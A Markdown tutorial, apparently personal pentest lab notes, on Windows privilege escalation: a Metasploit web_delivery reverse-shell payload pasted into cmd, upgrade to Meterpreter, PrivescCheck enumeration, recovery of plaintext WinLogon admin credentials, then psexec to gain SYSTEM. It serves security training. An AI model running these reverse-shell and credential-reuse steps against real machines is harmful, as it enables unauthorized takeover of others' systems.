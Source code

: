 # Windows: Identifying Privilege Escalation Vulnerabilities
> The assumption here is that you have gained access to a Windows system, but you do not have elevated privileges (you do not have NT AUTHORITY or SYSTEM). You have gained access as a normal user or via a service account.

## Contents
- [Intro](#intro)
  - [Identifying PrivEsc Vulnerabilities](#identifying-privesc-vulnerabilities)
  - [Script: PrivescCheck](#script-privesccheck)
- [Techniques & Tools](#techniques--tools)
  - [MetaSploit Module: web_delivery](#metasploit-module-web_delivery)
  - [Migrate to Meterpreter](#migrate-to-meterpreter)
  - [Execute PrivescCheck](#execute-privesccheck)
  - [Results](#results)
  - [Exploits](#exploits)

## Intro

### Identifying PrivEsc Vulnerabilities
- In order to elevate your privileges in Windows, you must first identify privilege escalation vulnerabilities on the target system.
- This process will differ greatly based on the type of target you gain access to.
  - Privilege escalation on Windows can be performed through a plethora of techniques based on the version of Windows and the system's unique configuration.
- This process can be quite tedious and time consuming.
  - As a result it is recommended to automate this process of identifying privilege escalation vulnerabilities.
  - This can be done through the use of various automation scripts. One of the best is PrivescCheck...

### Script: PrivescCheck
- [PrivescCheck](https://github.com/itm4n/PrivescCheck): this script aims to enumerate common Windows configuration issues that can be leveraged for local privilege esclation.
  - It also gathers various information that might be useful for exploitation and/or post-exploitation.
- It also gathers various information that might be useful for exploitation and/or post-exploitation.
  - Description: This script aims to identify Local Privilege Escalation (LPE) vulnerabilities that are usually due to Windows configuration issues, or bad practices. It can also gather useful information for some exploitation and post-exploitation tasks.

## Techniques & Tools
> The following is from a lab. It should give you the general contect and process of using the technique with the tools.

### MetaSploit Module: [web_delivery](https://www.offsec.com/metasploit-unleashed/web-delivery/)
> This is a module that creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine.
>
> This module spins up a web server that hosts a payload (based on the target operating system). When you hit run/exploit, it generates some PowerShell code. You copy that PowerShell code and execute it on the target machine. When you run that code on the target, it will download the payload and execute the exploit.
```
> use exploit/multi/script/web_delivery
> show info  # To see what it does
> set target PSH\ (Binary)
> set payload windows/shell/reverse_tcp
> set PSH-EncodedCommand false  # we do not want the ps script encoded
> set LHOST [attack ip or eth#]
> exploit
```
- Copy all the code it spits out.
  - Go to the target system and open a command prompt session (cmd.exe)
  - Right-click in the cmd window and that will paste in your script.
  - Hit ENTER
- Back into your Kali attack machine. You should have a command shell.
- We have access via the user "student."
  - Confirm that with `whoami`
  - Verify the hostname with `hostname`

### Migrate to Meterpreter
- Migrate your command shell you just obtained to a meterpreter session.
```
ctrl + z   # to background the session; still in msfconsole...
> search shell_to
> use post/multi/manage/shell_to_meterpreter
> set LHOST [attack ip]
> set SESSION [meterpreter session #]
> show advanced
  # We need to change the WIN_TRANSFER option
  # Instead of the transfer method being PowerShell, we want VisualBasic (VBS)
> set WIN_TRANSFER VBS
> run/exploit
```
- Go into your meterpreter session. Migrate to a 64-bit process (explorer.exe)
- cd over to the PrivescCheck subdir...
- Open a command shell session in this subdir: `> shell`

### Execute PrivescCheck
- Head over to the [PrivescCheck GitHub repo](https://github.com/itm4n/PrivescCheck) and read how to use it. Copy it.
- You want to copy that entire script and paste it into the shell prompt you just got from meterpreter.
- ENTER to execute it.
- Once it is finished, it will give you a summary at the bottom.
  - Scroll back up to the top and analyze the results...
  - You get a list of the groups on the system
  - As you work through the list, under each is an indicator if there is a vulnerability or not...

### Results
> Continuing with the lab above. PrivescCheck spits out test results; some will be "Not vulnerable" but others may shows positive results.

#### Example: Not Vulnerable
![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/c5966326-8dbe-4afc-934a-7a4ad21dc4c6)

#### Example: Vulnerable
![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/50628214-9c29-4728-b04c-545d5984bdae)

#### The WinLogon Feature
- This is a feature in Windows that allows you to automatically log on
- The creds for the automatic logon are typically stored in the Registry
- You should always encrypt these credentials stored in the Registry
- In our case, this was not done. Therefore, we have authentication credentials:
  - Username: administrator
  - Password: hello_123321
 
**_How can we use these admin creds to upgrade our user-level account access? _**

### Exploits

#### PSExec (SMB)
- Every version of Windows will have SMB running.
  - That means the system has the ability to authenticate users via SMB
  - PSExec authenticates on a system via SMB
- Use the Python implementation of the PSExec utility to login to the target system and obtain an elevated session.
  - On your Kali attack machine, get a new term window (tmux, new tab, whatever).
  - Command:`psexec.py  [username]@[target ip]`
  - You'll be prompted to enter the password
- That should get you a command shell session with admin rights (b/c you logged in as the administrator)
  - `whoami` : you should have nt authority/system
  - `net user` : list out all the users on the system
  - `whoami /priv` : you should see all the privs associated with admin

#### Metasploit Module: psexec 
- In the MSF: terminate your channel... background your meterpreter...
```
> search psexec
> use /exploit/windows/smb/psexec
  # Descr:  Microsoft Windows Authenticated User Code Execution
  # In order to use this module you need credentials
> set LPORT [####]
  # You may need to choose a new LPORT to avoid conflicts with the two existing sessions.
> set... RHOSTS... SMBUser... SMBPass...
> exploit
```
- You should get an elevated meterpreter session. Confirm with `sysinfo` and `getuid`
